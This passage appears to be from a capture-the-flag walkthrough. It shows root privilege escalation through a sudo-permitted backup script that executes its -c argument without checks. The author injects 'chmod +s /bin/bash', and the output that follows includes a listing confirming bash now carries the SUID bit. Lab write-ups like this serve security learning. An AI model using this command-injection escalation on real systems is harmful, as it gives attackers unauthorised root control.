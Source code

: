 And that argument will be executed
```sh

cmd=$($command)
echo $cmd
```

Let's call it with our command then
```
sudo /etc/mp3backups/backup.sh -c 'chmod +s /bin/bash'

/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
```

No error. Let's check if it worked.
```
ls -al /bin/bash

-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```
